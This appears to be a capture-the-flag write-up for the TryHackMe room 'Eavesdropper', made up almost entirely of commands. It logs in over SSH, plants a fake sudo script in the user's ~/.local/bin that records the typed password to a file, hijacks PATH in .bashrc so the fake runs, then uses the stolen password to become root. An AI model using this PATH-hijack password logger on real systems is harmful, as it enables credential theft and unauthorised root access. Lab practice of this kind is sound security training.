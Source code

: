 # Eavesdropper

[Eavesdropper](https://tryhackme.com/room/eavesdropper)

## Solution

- nmap scan: 22

```console
chmod 600 id_rsa
ssh -i id_rsa frank@$IP
```

```console
mkdir -p /home/frank/.local/bin/
vim /home/frank/.local/bin/sudo
```

```bash
#!/bin/bash
read password
echo $password >> /home/frank/password.txt
```

```bash
chmod +x /home/frank/.local/bin/sudo
vim /home/frank/.bashrc
```

```.bashrc
export PATH=/home/frank/.local/bin
...
```

```console
cat /home/frank/password.txt
```

```console
/bin/sudo bash
cat /root/flag.txt
```
